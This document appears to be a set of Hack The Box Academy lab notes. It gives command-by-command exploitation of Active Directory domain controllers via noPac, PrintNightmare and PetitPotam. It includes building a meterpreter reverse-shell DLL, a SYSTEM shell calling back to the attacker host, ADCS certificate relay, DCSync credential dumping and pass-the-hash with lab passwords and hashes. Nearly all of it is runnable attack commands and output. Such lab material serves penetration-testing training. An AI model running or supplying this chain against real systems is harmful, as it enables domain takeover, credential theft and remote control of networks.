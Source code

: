 ##### noPAC.py
```shell-session
Orbixio@htb[/htb]$ git clone https://github.com/Ridter/noPac.git
Orbixio@htb[/htb]$ sudo python3 scanner.py inlanefreight.local/forend:Klmcargo2 -dc-ip 172.16.5.5 -use-ldap
Orbixio@htb[/htb]$ sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 -shell --impersonate administrator -use-ldap
```

We could then use the ccache file to perform a pass-the-ticket and perform further attacks such as DCSync. We can also use the tool with the `-dump` flag to perform a DCSync using secretsdump.py. This method would still create a ccache file on disk, which we would want to be aware of and clean up.
#### PrintNightmare
```shell-session
Orbixio@htb[/htb]$ git clone https://github.com/cube0x0/CVE-2021-1675.git
# Install cube0x0 version of impacket
pip3 uninstall impacket
git clone https://github.com/cube0x0/impacket
cd impacket
python3 ./setup.py install

Orbixio@htb[/htb]$ rpcdump.py @172.16.5.5 | egrep 'MS-RPRN|MS-PAR'

Orbixio@htb[/htb]$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.225 LPORT=8080 -f dll > backupscript.dll

Orbixio@htb[/htb]$ sudo smbserver.py -smb2support CompData /path/to/backupscript.dll

[msf](Jobs:0 Agents:0) >> use exploit/multi/handler
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set PAYLOAD windows/x64/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set LHOST 172.16.5.225
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set LPORT 8080
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> run
```

```shell-session
Orbixio@htb[/htb]$ sudo python3 CVE-2021-1675.py inlanefreight.local/forend:Klmcargo2@172.16.5.5 '\\172.16.5.225\CompData\backupscript.dll'
```

```shell-session
[*] Sending stage (200262 bytes) to 172.16.5.5
[*] Meterpreter session 1 opened (172.16.5.225:8080 -> 172.16.5.5:58048 ) at 2022-03-29 13:06:20 -0400

(Meterpreter 1)(C:\Windows\system32) > shell
Process 5912 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

#### PetitPotam (MS-EFSRPC)
```shell-session
Orbixio@htb[/htb]$ sudo ntlmrelayx.py -debug -smb2support --target http://ACADEMY-EA-CA01.INLANEFREIGHT.LOCAL/certsrv/certfnsh.asp --adcs --template DomainController
```

```shell-session
Orbixio@htb[/htb]$ python3 PetitPotam.py 172.16.5.225 172.16.5.5       
```
Back in our other window, we will see a successful login request and obtain the base64 encoded certificate for the Domain Controller if the attack is successful.
Next, we can take this base64 certificate and use `gettgtpkinit.py` to request a Ticket-Granting-Ticket (TGT) for the domain controller.
```shell-session
Orbixio@htb[/htb]$ python3 /opt/PKINITtools/gettgtpkinit.py INLANEFREIGHT.LOCAL/ACADEMY-EA-DC01\$ -pfx-base64 MIIStQIBAzCCEn8GCSqGSI...SNIP...CKBdGmY= dc01.ccache
```

```shell-session
Orbixio@htb[/htb]$ export KRB5CCNAME=dc01.ccache
Orbixio@htb[/htb]$ secretsdump.py -just-dc-user INLANEFREIGHT/administrator -k -no-pass "ACADEMY-EA-DC01$"@ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
# Confirming
Orbixio@htb[/htb]$ klist
Orbixio@htb[/htb]$ crackmapexec smb 172.16.5.5 -u administrator -H 88ad09182de639ccc6579eb0849751cf
```

```shell-session
Orbixio@htb[/htb]$ python /opt/PKINITtools/getnthash.py -key 70f805f9c91ca91836b670447facb099b4b2b7cd5b762386b3369aa16d912275 INLANEFREIGHT.LOCAL/ACADEMY-EA-DC01$
Orbixio@htb[/htb]$ secretsdump.py -just-dc-user INLANEFREIGHT/administrator "ACADEMY-EA-DC01$"@172.16.5.5 -hashes aad3c435b514a4eeaad3b935b51304fe:313b6f423cd1ee07e91315b4919fb4ba
```